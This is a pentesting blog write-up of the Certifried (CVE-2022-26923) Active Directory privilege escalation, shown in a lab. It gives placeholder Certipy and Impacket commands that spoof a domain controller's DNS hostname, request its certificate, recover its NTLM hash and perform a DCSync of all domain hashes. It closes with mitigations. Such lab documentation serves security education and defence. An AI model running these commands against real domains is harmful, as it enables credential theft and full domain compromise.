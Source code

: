 ```yaml
---
layout: post
title:  "AD Pentesting | Domain Privesc - Certifried (CVE-2022-26923)"
---
```


![Certifried-diagram](/assets/Certifried/Certifried-diagram.jpg)

# The Attack In Brief
1. AD Certificates can be used for authentication.
2. Certificates can be generated from **templates** in a **Certificate Signing Request** (CSR).
3. There are **two** types of templates available in **ADCS** by default: User and Computer. They are **accessible to anyone** in the `Domain Users` or `Domain Computers` groups.
4. The certificates they generate **allow for authentication.**
5. *When generating a certificate for a computer object*, the computer template will check that computer's `DNSHostname` property and **will generate the certificate based on it**.
6. **Meaning:** *if the computer's* `DNSHostname` *is a Domain Controller's,* you will get a certificate for that **Domain Controller!**
7. *On another note, by default,* **any authenticated user** can join up to 10 computers to the domain.
8. *When a user joins a computer to the domain,* he will have the **permission to modify** that computer's `DNSHostname` property.
9. *Combining the points above,* any authenticated user can add a computer to the domain and *alter* its `DNSHostname` to that of a **Domain Controller** and get a certificate as that domain controller.
10. *Using that certificate,* the user *can obtain* the computer account's **NTLM** hash which can be used to *request a full copy of the domain's hashes* (a.k.a **perform a `DCSync` attack**).

---

# Tools Needed
1. [Certipy](https://github.com/ly4k/Certipy)
2. [Impacket](https://github.com/SecureAuthCorp/impacket)

---

# Lab Setup And Conditions
## 1. Domain Controller with ADCS Role installed [DC.LAB.Local: 192.168.126.129]
![dc-with-adcs-installed](/assets/Certifried/dc-with-adcs-installed.jpg)

## 2. Kali [192.168.145.128]
![kali-machine](/assets/Certifried/kali-machine.jpg)

## 3. Normal User Account (No Special Privileges)
![normal-ad-user](/assets/Certifried/normal-ad-user.jpg)

---

# Attack Demonstration
## 1. Joining A Machine Account to The Domain with A Spoofed DNSHostname
**Command:** `certipy account create <DOMAIN_FQDN>/<AD_USER>@<DC_IP> -user '<NEW_COMPUTER_NAME>' -dns <DC_FQDN>`

![creating-computer-with-spoofed-dns-hostname](/assets/Certifried/creating-computer-with-spoofed-dns-hostname.jpg)

![proof-of-dns-hostname-spoofing](/assets/Certifried/proof-of-dns-hostname-spoofing.jpg)

## 2. Requesting A Domain Controller's Certificate
we must first obtain the certificate authority's name.

This can be done by visiting the `/certsrv` web directory on the server with ADCS installed and authenticating.

![finding-out-the-ca-name](/assets/Certifried/finding-out-the-ca-name.jpg)

**Command:** `certipy req -dc-ip <DC_IP> <DOMAIN_FQDN>/'<ADDED_COMPUTER_NAME_ENDING_WITH_DOLLAR_SIGN>'@<DC_IP> -ca <CA_NAME> -template Machine`

Password = the same password generated from the computer creation in the previous step

![requesting-dc-cert](/assets/Certifried/requesting-dc-cert.jpg)

## 3. Using the Domain Controller's Certificate To Get its NTLM Hash
**Command:** `certipy auth -pfx <GENERATED_PFX_CERTIFICATE>`

![got-nt-hash-for-dc](/assets/Certifried/got-nt-hash-for-dc.jpg)

## 4. Performing DCSync As The Impersonated Domain Controller
**Command:** `secretsdump.py -just-dc <DOMAIN_FQDN>/'<DC_NAME_ENDING_WITH_DOLLAR_SIGN>'@<DC_IP> -hashes :<RETRIEVED_HASH>`

![dc-sync-with-dc-ntlm-hash](/assets/Certifried/dc-sync-with-dc-ntlm-hash.jpg)

---

# Mitigation
1. Applying the patch released by Microsoft [here](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2022-26923).
2. Reducing certificate template permissions.
3. Reducing the default user's machine quota to zero. Only Administrators should have this privilege.

---

# References and Credits
- **Will Schroeder** and **Lee Christensen** who wrote the paper that started it all [here](https://www.specterops.io/assets/resources/Certified_Pre-Owned.pdf)
- [Oliver Lyak](https://twitter.com/ly4k_) who discovered, reported and explained the vulnerability [here](https://research.ifcr.dk/certifried-active-directory-domain-privilege-escalation-cve-2022-26923-9e098fe298f4) as well as created the `Certipy` tool.
- **SecureAuthCorp** for the awesome **Impacket** scripts of course :D